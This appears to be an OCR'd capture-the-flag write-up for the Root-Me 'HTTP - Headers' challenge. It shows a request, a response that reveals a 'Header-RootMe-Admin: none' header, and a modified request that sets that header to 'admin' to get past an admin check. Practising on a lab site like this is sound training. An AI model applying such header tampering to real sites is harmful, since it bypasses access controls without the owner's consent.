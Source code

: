 # HTTP - Headers

Request

GET /web-serveur/ch5/ HTTP/1.1 Host: challenge01.root-me.org User-Agent: Mozilla/5.0 (X11; Linux x86\_64; rv:91.0) Gecko/20100101 Firefox/91.0 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,_/_;q=0.8 Accept-Language: en-US,en;q=0.5 Accept-Encoding: gzip, deflate Connection: close Cookie: \_ga\_SRYSKX09J7=GS1.1.1661131878.13.1.1661135774.0.0.0; \_ga=GA1.1.536088429.1661133467 Upgrade-Insecure-Requests: 1 Cache-Control: max-age=0

***

Response

HTTP/1.1 200 OK Server: nginx Date: Mon, 22 Aug 2022 02:49:42 GMT Content-Type: text/html; charset=UTF-8 Connection: close Vary: Accept-Encoding **Header-RootMe-Admin: none** Content-Length: 272

Content is not the only part of an HTTP response!

***

then Requset modified

GET /web-serveur/ch5/ HTTP/1.1 Host: challenge01.root-me.org User-Agent: Mozilla/5.0 (X11; Linux x86\_64; rv:91.0) Gecko/20100101 Firefox/91.0 **Header-RootMe-Admin: admin** Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,_/_;q=0.8 Accept-Language: en-US,en;q=0.5 Accept-Encoding: gzip, deflate Connection: close Cookie: \_ga\_SRYSKX09J7=GS1.1.1661131878.13.1.1661135774.0.0.0; \_ga=GA1.1.536088429.1661133467 Upgrade-Insecure-Requests: 1 Cache-Control: max-age=0

